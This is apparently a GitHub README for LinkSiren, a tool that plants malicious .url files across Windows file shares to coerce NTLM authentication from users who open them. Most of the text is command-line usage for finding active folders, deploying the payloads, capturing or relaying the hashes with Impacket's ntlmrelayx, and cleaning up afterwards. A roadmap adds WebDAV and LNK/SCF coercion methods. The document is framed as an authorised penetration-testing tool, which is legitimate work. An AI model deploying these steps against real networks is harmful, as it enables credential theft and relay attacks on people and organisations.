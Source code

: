 # LinkSiren

## What is this tool?
LinkSiren distributes .url files to accessible file shares to coerce NTLM authentication from hosts that open them, like [Farmer](https://github.com/mdsecactivebreach/Farmer/tree/1f37598125a92c9edf41295c6c1b7c258143968d), [Lnkbomb](https://github.com/dievus/lnkbomb), or [Slinky](https://www.infosecmatter.com/crackmapexec-module-library/?cmem=smb-slinky) but with prioritized locations and scalable deployment and cleanup.

## How do I use this NOW?
```bash
git clone https://github.com/gjhami/LinkSiren.git && cd LinkSiren
python -m pip install -r requirements.txt
python link_siren.py --username <username> --password <password> --domain <domain.tld> --targets <shares file> --identify
python link_siren.py --username <username> --password <password> --domain <domain.tld> --targets folder_targets.txt --deploy
# Capture hashes
python link_siren.py --username <username> --password <password> --domain <domain.tld> --targets payloads_written.txt --cleanup
```

## How do I use this the \~right\~ way?
```bash
# Get the project
git clone https://github.com/gjhami/LinkSiren.git
cd LinkSiren

# Set up a virtual environment and install requirements
python -m venv .venv
source ./.venv/bin/activate # Linux
# .\.venv\Scripts\activate # Windows
python -m pip install -r requirements.txt

# 1. Create a targets file containing accessible shares, one per line, in the following format: \\server.domain.tld\share
#    I recommend crackmapexec or shareenum 
# 2. Use LinkSiren to identify the most active folders on them
#    Note: You may fine tune the --max-depth, --active-threshold, --fast, and --max-folders-per-share params as necessary
python link_siren.py --username <username> --password <password> --domain <domain.tld> --targets <shares file> --identify
# 3. Use LinkSiren to deploy payloads to all of the active folders
#    --identify saves UNC paths to active folders in folder_targets.txt
python link_siren.py --username <username> --password <password> --domain <domain.tld> --targets folder_targets.txt --deploy
# 4. Let the hashes come to you and relay them as you see fit :)
#    Use CrackMapExec and LdapRelayScan for relay target identification
#    Use Impacket's ntlmrelayx for relay or smbserver for capture on the attacker machine
# 5. Cleanup the payload files when you're finished gathering.
#    Set targets to a file containing UNC paths of all folders where payloads were written
#    --deploy saves UNC paths to deployed payloads in payload_folders.txt
#    Note: If you set a custom payload name (--payload) when deploying, you must set the same name here
python link_siren.py --username <username> --password <password> --domain <domain.tld> --targets payloads_written.txt --cleanup
```

## How is this better than the other tools?
Other tools are built to place a single malicious .url file at a specified location and clean up that one malicious .url file. If you find yourself with access to a lot of shares you may want things to scale and you may not be in the mood to write a wrapper. LinkSiren crawls shares you currently have access to and ranks every subfolder based on the liklihood it will be opened by a user sometime soon. Then it uses this information to target malicious .url file distribution to multiple locations at once. Additionally, LinkSiren records the full UNC path of every .url file it creates, allowing for cleanup with a single command.

Summary
- Scales to an arbitrary number of .url files
- Targeted .url placement
- Single command cleanup
- Cross platform with python
  
## How will you make it even better?
I'm looking to add the following features:
- [ ] Start the WebClient service on targets using searchConnector-ms and library-ms files (see [The Hacker Recipes](https://www.thehacker.recipes/ad/movement/mitm-and-coerced-authentications/webclient#start-the-webclient-service) and [Farmer Source Code](https://github.com/mdsecactivebreach/Farmer/blob/main/crop/Crop/Crop.cs))
- [ ] Coerce HTTP authentication with WebDAV connection strings (see [The Hacker Recipes](https://www.thehacker.recipes/ad/movement/mitm-and-coerced-authentications/webclient#abuse))
- [ ] Support additional file types: SCF and LNK (per [MITRE]([url](https://attack.mitre.org/techniques/T1187/)))
- [ ] Add a progress bar for share crawling
- [ ] Enable ticket based authnentication (Kerberos)
- [ ] Multithreading/Multiprocessing for faster share crawling

## Note
This tools is designed for ethical hacking and penetration testing. It should be used exclusively on networks where explicit, written permission has been granted for testing. I accept no responsibility for the safety or effectiveness of this tool. Please don't sue me.
